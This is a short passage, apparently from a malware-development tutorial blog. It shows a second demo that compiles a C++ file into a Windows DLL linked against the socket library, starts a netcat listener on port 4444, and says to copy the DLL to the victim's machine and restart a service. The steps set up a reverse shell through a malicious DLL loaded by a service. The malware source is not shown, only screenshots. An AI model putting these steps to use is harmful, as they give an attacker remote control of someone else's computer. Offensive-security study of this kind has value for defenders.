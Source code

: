 ### demo 2

Let's go to see second example in action. Compile our `meow2.cpp`:    

```bash
x86_64-w64-mingw32-g++ -shared -o meow.dll meow2.cpp -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lws2_32
```

![malware](/assets/images/177/2025-09-17_01-44.png){:class="img-responsive"}    

Prepare netcat listener:    

```bash
nc -nlvp 4444
```

![malware](/assets/images/177/2025-09-17_01-35.png){:class="img-responsive"}    

Copy updated `meow.dll` to the victim's machine and restart service.     

